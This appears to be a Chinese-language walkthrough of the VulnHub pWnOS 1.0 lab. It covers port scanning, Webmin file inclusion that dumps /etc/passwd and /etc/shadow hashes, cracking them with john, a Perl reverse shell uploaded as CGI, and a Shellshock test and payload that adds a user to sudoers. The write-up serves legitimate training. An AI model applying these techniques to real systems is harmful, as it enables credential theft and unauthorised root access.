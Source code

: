 # PWNOS：1.0

下载地址：https://download.vulnhub.com/pwnos/pWnOS_v1.0.zip

> 需点击移动虚拟机，不然网络获取不到IP地址

## 实战操作

扫描到靶场IP地址：`192.168.2.129`

![image-20220608193500729](../../.gitbook/assets/image-20220608193453722.png)

扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.2.129                                                                                                                                                                                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 07:35 EDT
Nmap scan report for 192.168.2.129
Host is up (0.0027s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.79 seconds

```

现在转到端口 80 上的 Web 服务，该页面向我显示一条消息，说明"欢迎来到 pWnOS 主页！" 以及一个下一步按钮，可将我引导至根据您的技能水平提供提示的页面。

![image-20220608194319909](../../.gitbook/assets/image-20220608194319909.png)

爆破WEB目录

![image-20220608194541251](../../.gitbook/assets/image-20220608194541251.png)

找到phpmyadmin，没啥用。

![image-20220608194626960](../../.gitbook/assets/image-20220608194626960.png)

文件包含漏洞

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

![image-20220608194701529](../../.gitbook/assets/image-20220608194701529.png)

webmin有个文件包含的漏洞

```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

![image-20220608195329180](../../.gitbook/assets/image-20220608195329180.png)

**john 使用rockyou.txt** wordlist花了大约 10 分钟返回用户**`vmware`**，密码**`h4ckm3`**

```
unshadow passwd.txt shadow.txt > pwnos-pass.txt
```

回想一下 Webmin 以及我如何能够获取它必须以提升的权限运行的影子文件，所以为了验证我检查了**var**目录并且我的怀疑是正确的，Web 应用程序以 root 身份运行！

```
vmware@ubuntuvm:~$ ls -lah /var/
total 52K
drwxr-xr-x 15 root root  4.0K 2008-06-10 13:28 .
drwxr-xr-x 21 root root  4.0K 2008-06-10 06:37 ..
drwxr-xr-x  2 root root  4.0K 2008-06-10 06:28 backups
drwxr-xr-x  9 root root  4.0K 2008-06-10 07:07 cache
drwxr-xr-x 23 root root  4.0K 2008-06-10 07:08 lib
drwxrwsr-x  2 root staff 4.0K 2007-10-08 05:47 local
drwxrwxrwt  3 root root    60 2017-05-18 16:17 lock
drwxr-xr-x 11 root root  4.0K 2017-05-18 16:17 log
drwxrwsr-x  2 root mail  4.0K 2008-06-10 06:24 mail
drwxr-xr-x  2 root root  4.0K 2008-06-10 06:24 opt
drwxr-xr-x 11 root root   400 2017-05-18 18:28 run
drwxr-xr-x  5 root root  4.0K 2008-06-10 07:07 spool
drwxrwxrwt  2 root root  4.0K 2007-10-08 05:47 tmp
drwx------  2 root bin   4.0K 2008-06-10 13:31 webmin
drwxr-xr-x  3 root root  4.0K 2008-06-12 09:55 www

```

### CGI提权

所以现在我知道 Webmin 以**root**身份运行，我只需要找到一个可以写入的位置并使用文件包含来调用该文件。回顾 Webmin 上的源代码，我注意到它使用的是 .CGI。这样做研究我发现。[CGI](https://users.cs.cf.ac.uk/Dave.Marshall/PERL/node188.html#SECTION002012000000000000000)使用 [perl]( [perl](http://whatis.techtarget.com/fileformat/CGI-Common-gateway-interface-script)、 C# 或 unix 脚本。所以我导航到 /usr/share/webshells/perl 目录并复制 perl 反向 shell，将 ip 和端口更改为 443，以及 pl 的扩展名到 .cgi。使用 wget 将其发送到 Web 服务器。

```
cp /usr/share/webshells/perl/perl-reverse-shell.pl mine.cgi
```

![image-20220608200717471](../../.gitbook/assets/image-20220608200717471.png)

### 破壳shell提权

在查看 ubuntu 的版本时，它已经过时了，这让我认为它可能容易受到[shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186_and_CVE-2014-7187_Details)的攻击。所以测试了bash环境变量，我的理论是正确的。

```
vmware@ubuntuvm:/tmp$ env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c date
CVE-2014-6271 vulnerable
Wed Jun  8 07:08:48 CDT 2022
```

**因此，我在/tmp**目录中创建了一个扩展名为 .CGI 的快速 bash 脚本。

```
#!/bin/bash
print "Content-type: text/HMTL\n\n";
print "<HTML>\n";
print "<head><title>HEllo World!</title></head>\n";
print "<BODY>\n";
print "<h2>Hello World!</h2>\n";
```

我再次使用 Webmin 文件包含来调用我在 tmp 目录中创建的文件，并使用我在用户代理中使用 [shellshock的](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186_and_CVE-2014-7187_Details)[篡改数据将](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)**vmware**添加到**/etc/sudoers**文件。

![img](../../.gitbook/assets/gfhj4536234dsfds.PNG)

然后直接`su root`